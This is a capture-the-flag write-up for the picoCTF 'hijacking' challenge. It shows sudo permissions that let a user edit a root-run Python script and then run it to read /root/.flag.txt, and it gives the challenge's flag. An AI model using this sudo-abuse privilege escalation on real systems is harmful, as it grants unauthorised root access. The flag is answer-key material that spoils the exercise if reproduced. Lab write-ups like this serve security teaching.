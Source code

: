# hijacking

## Challenge

### Description

Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.

Through Social engineering, we've got the credentials to use on the server. SSH is running on the server.

`saturn.picoctf.net 56938`

Username: `picoctf`

### Hints

1. Check for Hidden files
2. No place like Home:)

## Solution

After connecting to the server, we run `sudo -l` and notice that we are allowed to run `vi` and `.server.py` as root privilege with no password.

```console
$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

So all we need to do is using `sudo vi .server.py` to modify `.server.py` into

```python
import os

# List files in /root
print(os.listdir("/root"))

# Print flag
os.system("cat /root/.flag.txt")
```

And then run `.server.py` with root privilege `sudo python3 ~/.server.py`

## Flag

picoCTF{pYth0nn_libraryH!j@CK!n9_0083cb0b}
